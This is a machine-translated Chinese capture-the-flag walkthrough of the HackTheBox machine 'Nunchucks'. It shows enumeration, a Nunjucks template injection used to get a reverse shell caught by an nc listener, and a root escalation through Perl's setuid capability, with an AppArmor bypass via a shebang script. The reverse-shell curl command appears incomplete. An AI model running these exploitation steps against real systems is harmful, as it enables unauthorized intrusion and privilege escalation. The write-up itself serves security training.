








# 《黑客盒子》中的双截棍——详细演练

> 原文：<https://infosecwriteups.com/nunchucks-from-hackthebox-detailed-walkthrough-c09ba0f276fa?source=collection_archive---------6----------------------->

## 向您展示完成盒子所需的所有工具和技术。

# 机器信息



黑客盒子里的双截棍

双截棍是 HackTheBox 上的一个简单的机器。我们从枚举开始，在一个子域上找到一个容易受到服务器端模板注入攻击的网站。更多的探索发现了一个易受攻击的模板引擎，我们利用它来获得一个反向外壳。升级到 root 是通过 perl 二进制文件上设置的功能。使用 GTFOBins 示例，我们利用这一点来获得根 shell。

需要的技能是基本的扫描和计数技术。学到的技能是寻找和使用公开可用的漏洞。

# 初步侦察

像往常一样，让我们从 Nmap 开始:



机器上端口的 Nmap 扫描

我们看到三个开放的端口，其中 443 显示一个主机名，让我们将其添加到/etc/hosts:

```
┌──(root💀kali)-[~/nunchucks]
└─# echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
```

# 网站(全球资讯网的主机站)

从上面的 Nmap 中，我们看到端口 80 上的 HTTP 在端口 443 上重定向到 HTTPS。访问该网站时，我们看到它是一个在线商店创建平台:


网站主页

# Gobuster

环顾四周，这只是一个网站的基本模板。有一个注册账户的表格，但是如果你尝试的话，它会说注册现在已经结束了。在底部的链接部分，它提到即将有一个商店。我们还从过去的 CTF 中了解到，经常会有虚拟主机，所以让我们尝试扫描:



vhosts 的 Gobuster 扫描

我们找到商店了！首先添加到主机文件:

```
┌──(root💀kali)-[~]
└─# sed -i '/10.10.11.122 nunchucks.htb/ s/$/ store.nunchucks.htb/' /etc/hosts
```

# 双截棍店

现在让我们来看看:



双截棍店

经过一番试验，我们发现这个表单容易受到服务器端模板注入(SSTI)的攻击:


服务器端模板注入漏洞

# SSTI

就像我们在 [Bolt](https://www.hackthebox.com/home/machines/profile/384) 上看到的那样，我们可以用来自[黑客技巧](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)的例子来证实。上面我们看到 49 的响应确认了 7 * 7 的有效负载在服务器端被评估，并且答案被返回到页面。

现在我们知道了它的弱点，我们需要一种方法来利用它。查看 Wappalyzer，它检测到用作 Express 的 web 框架:



网站的分析信息

点击 Wappalyzer 链接[这里](https://www.wappalyzer.com/technologies/web-frameworks/express)有更多关于这个框架的信息，还有一个链接把我们带到了 [ExpressJS](http://expressjs.com/) 网站。环顾四周，我们在参考资料部分发现了一些有趣的东西:



模板引擎 ExpressJS

有一个模板引擎叫做 Nunjucks，这很可疑，因为它几乎和这个盒子同名。接下来，我们在 Github repo [这里](https://github.com/mozilla/nunjucks)结束。搜索“nunjucks ssti”会找到[这个](https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-nodejs-nunjucks/)，然后到[这个](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)。这最后一篇文章解释了一个沙盒爆发，通过使用所描述的有效负载可以很容易地跟随它:



ssti 的有效载荷

我们只需要在单引号和双引号前面加一个反斜杠来进行转义，然后使用 curl 来传递:



使用 curl 将有效负载传送到网站

# 反向外壳

我使用 sed 整理了输出，使其更具可读性。有了这个工作，让我们尝试一个相反的外壳:

```
┌──(root💀kali)-[~/htb/nunchucks]
└─# curl -s -k -X POST -H $'Content-Type: application/json' --data-binary $'{\"email\":\"\"\x0d\x0a}' 'https://store.nunchucks.htb/api/submit'
```

切换到一个等待的 nc 监听器来查看我们的连接:

```
┌──(root💀kali)-[~/htb/nunchucks]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.122] 60976
```

首先，让我们将 shell 升级到更有用的版本:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ ^Z                
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/nunchucks]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
david@nunchucks:/var/www/store.nunchucks$
```

# 用户标志

排序后，让我们得到用户标志:

```
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt 
<HIDDEN>
```

经过一些枚举之后，我在/opt 中找到了一个 Perl 脚本:

```
david@nunchucks:/var/www/store.nunchucks$ ls -lsa /opt
4 -rwxr-xr-x  1 root root  838 Sep  1 12:53 backup.pl
4 drwxr-xr-x  2 root root 4096 Oct 28 17:03 web_backups
```

# Setuid 漏洞

查看脚本，第一部分有 setuid(0):

```
david@nunchucks:/var/www/store.nunchucks$ cat /opt/backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

脚本的其余部分是获取/var/www 的内容并将其备份到/tmp，然后将其移动到/opt。有趣的部分是开始时的 setuid 命令。在之前的名为 [Wonderland](https://pencer.io/ctf/ctf-thm-wonderland/#root-flag) 的 TryHackMe 盒子上，我使用了同样的功能。GTFOBins 的文章[在这里](https://gtfobins.github.io/gtfobins/perl/#capabilities)解释了我们如何利用这一点:

```
If the binary has the Linux CAP_SETUID capability set or it is executed by another
binary with the capability set, it can be used as a backdoor to maintain privileged
access by manipulating its own process UID.
```

如果我们检查 perl 二进制文件，我们会看到它设置了 CAP_SETUID:

```
david@nunchucks:/var/www/store.nunchucks$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

使用 GTFOBins 提供的漏洞没有任何作用:

```
david@nunchucks:/tmp$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/tmp$
```

这是为什么呢？原来这个盒子已经为 Perl 启用了 Apparmor。有用的信息[在这里](https://wiki.ubuntu.com/AppArmor)来自 Ubuntu 关于它的用法。如果我们按照文章中的描述在/etc/apparmor.d 中查找，我们会看到有一个关于 Perl 的概要文件:

```
david@nunchucks:/tmp$ ls -lsa /etc/apparmor.d/usr.bin.*
-rw-r--r-- 1 root root 202 Feb 25 2020  /etc/apparmor.d/usr.bin.man
-rw-r--r-- 1 root root 442 Sep 26 01:16 /etc/apparmor.d/usr.bin.perl
```

查看该文件，我们可以看到它阻塞了我们，但是我们可以通过使用一个. pl 文件来绕过它，该文件中包含 Perl shebang 并使之可执行。这里有一点信息[但是很简单。](https://www.geeksforgeeks.org/perl-use-of-hash-bang-or-shebang-line/)

# 根标志

将来自 GTFOBins 的相同命令回显到机器上的一个文件中:

```
david@nunchucks:/tmp$ echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > pencer.pl
```

现在让它可执行，然后直接调用它:

```
david@nunchucks:/tmp$ chmod +x pencer.pl 
david@nunchucks:/tmp$ ./pencer.pl 
# id
uid=0(root) gid=1000(david) groups=1000(david)
# cat /root/root.txt
<HIDDEN>
```

我们开始吧。又一个盒子扎根了，下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 5 月 19 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-nunchucks/)*。*